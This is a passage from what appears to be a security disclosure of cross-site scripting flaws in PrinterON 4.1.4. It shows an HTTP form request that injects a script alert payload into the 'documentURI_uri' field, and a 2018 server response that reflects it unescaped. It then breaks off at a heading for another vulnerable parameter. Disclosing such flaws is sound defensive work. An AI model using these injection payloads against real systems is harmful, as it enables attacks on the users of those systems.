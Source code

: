 ```

<script>alert("PrinterON 4.1.4 XSS2")</script>
-----------------------------8402911309205592381366920078
Content-Disposition: form-data; name="documentURI_uri"
<--SNIP-->
```

##### Response:
```
HTTP/1.1 200 
<--SNIP-->
Content-Length: 6837
Date: Thu, 06 Sep 2018 06:47:14 GMT
Connection: close
Server: PrinterOn

<--SNIP-->

 <div class="row">
                <div class="col-md-3"></div>
                <div class="col-md-3 text-center">
                    <label>Document</label>
                </div>
                <div class="col-md-3 text-center">
                    <script>alert("PrinterON 4.1.4 XSS2")</script>
                </div>
            </div>

            <div class="row">
                <div class="col-md-3"></div>
                <div class="col-md-3 text-center">
                    <label class="control-label">Job ID</label>
                </div>
                <div class="col-md-3 text-center">
                    1001248
                </div>
            </div>
        </div>
    </div>

	
</div>
    </body>
</html>
```



### - documentURI_file (filename):
